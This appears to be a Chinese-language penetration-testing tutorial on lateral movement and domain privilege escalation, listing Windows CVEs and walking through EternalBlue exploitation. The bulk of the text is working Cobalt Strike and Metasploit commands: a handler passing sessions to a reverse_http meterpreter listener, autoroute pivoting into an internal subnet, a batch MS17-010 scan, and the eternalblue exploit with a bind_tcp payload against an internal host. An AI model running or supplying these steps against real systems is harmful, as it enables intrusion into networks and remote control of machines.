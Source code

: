 横向移动-系统漏洞-CVE-2017-0146 永恒之蓝
SMB445溢出漏洞：MS17-010 MS08-067
横向移动-域控提权-CVE-2014-6324  ms14068 PTT票据传递-伪造票据
横向移动-域控提权-CVE-2020-1472
横向移动-域控提权-CVE-2021-42287 PTT票据传递-伪造票据
横向移动-域控提权-CVE-2022-26923

## **永恒之蓝MS17010 CS探测和MSF利用**
CS上线后可以探测smb445端口的永恒之蓝，但转到MSF更好探测和攻击利用。


CS创建一个监听器
```
类型选择Foreign HTTP
名字：msf
host：输入MSF的IP地址
端口：MSF监听的端口
```
MSF开启监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http   ##这里一定不要输入错误，你上面监听器是http，那么这里就是http
set lhost 0.0.0.0
set lport 3010                  ##端口根据你自己的修改
run
```
CS再输入命令spawn msf 即可。

此时在MSF会话中
```
查看角色
getuid

添加内网路由
run post/multi/manage/autoroute

查看内网路由 此时有192.168.3.0
run autoroute -p

会话后台
background

使用永恒之蓝检测模块 批量检测
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.3.21-32
set threads 5
run

此时检测到192.168.3.21:445存在漏洞
利用上线
use exploit/windows/smb/ms17_010_eternalblue
能出网，用反向上线(默认反向)
3.21机不能出网，用正向上线
set payload windows/x64/meterpreter/bind_tcp
show options
set rhosts 192.168.3.21
set lport 4444
run
最终通过跳板机连接 3.21内网机4444端口 上线。
```



